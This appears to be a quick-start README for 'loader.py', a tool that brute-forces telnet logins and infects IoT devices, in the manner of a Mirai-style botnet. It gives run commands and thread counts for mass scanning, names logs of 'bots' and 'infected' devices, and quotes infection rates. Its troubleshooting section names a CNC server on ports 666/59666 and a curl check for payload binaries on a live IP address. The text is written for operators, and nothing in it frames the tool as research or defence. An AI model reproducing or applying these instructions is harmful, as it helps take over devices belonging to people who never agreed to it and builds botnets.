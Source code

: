 # 🚀 Loader.py Quick Start Guide

## ✅ Setup Complete!

Your loader is ready to use. Here's how to run it:

### **1. Basic Usage**
```bash
cd /root/loader
python loader.py telnet.txt
```

### **2. Recommended Thread Counts**
- **Test Run**: 10-50 threads
- **Small Scan**: 50-200 threads  
- **Large Scan**: 200-500 threads
- **Maximum**: 1000+ threads (system dependent)

### **3. Monitor Progress**
```bash
# In separate terminals:
tail -f bots.txt          # Successful logins
tail -f infected.txt     # Infected devices  
tail -f echoes.txt       # Echo-loaded devices
```

### **4. Stop the Loader**
- Press **Enter 3 times** in the loader terminal

## 📊 What You'll See

### **Real-time Status**
```
[+] Logins: 45     Ran:12  Echoes:8 Wgets:15 TFTPs:3
```

### **Success Messages**
```
[+] GOTCHA -> admin:admin:192.168.1.1
[+] ECHOLOADED ---> admin:admin:192.168.1.1 ---> static.arm
[+] INFECTED -> admin:admin:192.168.1.1
```

## 🎯 Expected Results

- **Login Rate**: 10-30% of targets
- **Infection Rate**: 5-15% of successful logins  
- **Echo Success**: 2-8% of infections
- **Total Success**: 0.1-2% of all targets

## 🔧 Troubleshooting

### **Low Success Rate?**
1. Check if CNC server is running: `netstat -tlnp | grep 666`
2. Verify binaries are accessible: `curl -I http://185.247.117.214/bins/static.arm`
3. Test with known working targets first

### **Connection Issues?**
1. Reduce thread count
2. Check network connectivity
3. Verify target IPs are reachable

### **No Infections?**
1. Ensure CNC server is running on ports 666/59666
2. Check if binaries are properly downloaded
3. Verify target credentials are correct

## 📈 Performance Tips

1. **Start Small**: Test with 10-50 threads first
2. **Monitor Resources**: Watch CPU/memory usage
3. **Use Quality Lists**: Better credentials = higher success
4. **Keep Logs**: Save successful targets for future use

## 🎉 You're Ready!

Run: `python loader.py telnet.txt`

Good luck with your scanning! 🚀

